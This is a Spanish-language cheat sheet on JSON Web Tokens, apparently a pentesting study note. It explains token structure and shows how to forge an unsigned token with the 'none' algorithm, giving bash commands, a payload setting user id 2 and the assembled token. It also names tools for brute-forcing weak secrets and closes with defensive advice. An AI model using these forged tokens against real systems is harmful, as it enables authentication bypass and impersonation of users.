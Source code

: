 -- - 

---

### 🔐 **JSON Web Token (JWT) Cheat Sheet**  

---

#### 🧩 **¿Qué son los JWT?**  
Los JWT están compuestos por **3 partes**, separadas por puntos:  
1. 📝 **Header** → Algoritmo & Tipo de Token  
2. 💾 **Payload** → Datos (información del usuario u otros claims)  
3. 🔑 **Signature** → Verificación de la firma  

#### 🗝️ **Ejemplo de JWT:**  
```
1(eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9).2(eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ).3(SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c)

```

#### 📌 **Nota:**  
Los JWT están codificados en **Base64**, lo que permite **decodificarlos fácilmente** usando la web oficial `jwt.io` o directamente desde la terminal.

---

## 🚨 **Posibles vulnerabilidades en el uso de JWT**

---

### 🛑 **1. Algoritmo "None" y Sin Firma**  
Algunas aplicaciones permiten el uso de `alg: "NONE"`, lo que permite **omitir la firma**.  

#### 🔥 **Generación del Header:**
```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64
# Resultado: eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=
```

#### 🔥 **Generación del Payload:**
```bash
echo -n '{"id":2,"iat":1724327756,"exp":1724331356}' | base64
# Resultado: eyJpZCI6MiwiaWF0IjoxNzI0MzI3NzU2LCJleHAiOjE3MjQzMzEzNTZ9
```

#### 💣 **Construcción del JWT:**
```
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNzI0MzI3NzU2LCJleHAiOjE3MjQzMzEzNTZ9.
```

---

### ⚠️ **Nota Importante:**  
1. **Borra el símbolo `=` del final de cada cadena Base64.**  
2. **Agrega un punto (`.`) al final de las cadenas unidas.**  

---

### 💥 **2. Ataque de Fuerza Bruta al Secreto**  
Otro enfoque es **adivinar el secreto** mediante fuerza bruta.  
Aunque no siempre es factible, en algunos casos donde el secreto es débil o conocido, podría funcionar.  
- Herramientas comunes: `JWT-Tool`, `John the Ripper`, `hashcat`.  
- En general, no es práctico debido al tiempo que requiere para secretos robustos.  

---

💡 **Recomendación:**  
- **Evita el uso de `alg: "NONE"`.**  
- **Utiliza secretos fuertes y complejos.**  
- **Implementa mecanismos de rotación de tokens y vencimiento corto.**  

---
